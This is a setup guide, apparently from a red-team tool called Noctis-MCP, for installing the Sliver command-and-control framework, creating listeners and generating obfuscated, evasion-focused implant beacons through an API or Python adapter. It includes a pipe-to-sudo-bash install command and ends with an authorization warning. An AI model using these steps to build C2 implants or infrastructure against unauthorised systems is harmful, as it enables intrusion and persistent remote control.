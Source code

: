# Installing Sliver C2 for Noctis-MCP

Noctis-MCP integrates with real C2 frameworks. This guide covers Sliver installation.

## Quick Install

### Linux (Recommended)
```bash
# Install Sliver
curl https://sliver.sh/install | sudo bash

# Verify installation
sliver-client version
sliver-server version
```

### Manual Installation
```bash
# Download latest release
wget https://github.com/BishopFox/sliver/releases/latest/download/sliver-server_linux -O /usr/local/bin/sliver-server
wget https://github.com/BishopFox/sliver/releases/latest/download/sliver-client_linux -O /usr/local/bin/sliver-client

# Make executable
chmod +x /usr/local/bin/sliver-server
chmod +x /usr/local/bin/sliver-client
```

## Starting Sliver Server

### 1. Start the Server
```bash
# Start Sliver server daemon
sudo sliver-server daemon

# OR start interactive
sliver-server
```

### 2. Create Operator (in Sliver console)
```
sliver > new-operator --name noctis --lhost 127.0.0.1 --lport 31337
```

### 3. Create Listener
```
# HTTPS listener
sliver > https -L 192.168.1.100 -l 443

# DNS listener
sliver > dns -d example.com

# mTLS listener
sliver > mtls -L 192.168.1.100 -l 8888
```

## Using with Noctis-MCP

### Via API
```bash
curl -X POST http://localhost:8888/api/c2/sliver/generate \
  -H "Content-Type: application/json" \
  -d '{
    "listener_host": "192.168.1.100",
    "listener_port": 443,
    "protocol": "https",
    "architecture": "x64",
    "techniques": ["NOCTIS-T124", "NOCTIS-T118"],
    "obfuscate": true
  }'
```

### Via Python
```python
from c2_adapters.sliver_adapter import generate_sliver_beacon

result = generate_sliver_beacon(
    listener_host="192.168.1.100",
    listener_port=443,
    protocol="https",
    architecture="x64",
    techniques=["NOCTIS-T124"],  # API hashing
    obfuscate=True,
    verbose=True
)

if result.success:
    print(f"Beacon generated: {result.beacon_path}")
    print(f"OPSEC Score: {result.opsec_score}/10")
```

## Troubleshooting

### Sliver Not Found
```bash
# Check installation
which sliver-client
which sliver-server

# Add to PATH if needed
export PATH=$PATH:/usr/local/bin
```

### Connection Issues
```bash
# Check Sliver server is running
ps aux | grep sliver-server

# Check logs
sudo journalctl -u sliver-server -f
```

### Permission Issues
```bash
# Run with sudo if needed
sudo sliver-server
```

## References
- Official Docs: https://github.com/BishopFox/sliver/wiki
- Installation: https://github.com/BishopFox/sliver#install
- Noctis Docs: See CURRENT_STATUS.md

---
**WARNING:** Use only in authorized environments. Generating C2 beacons without authorization is illegal.
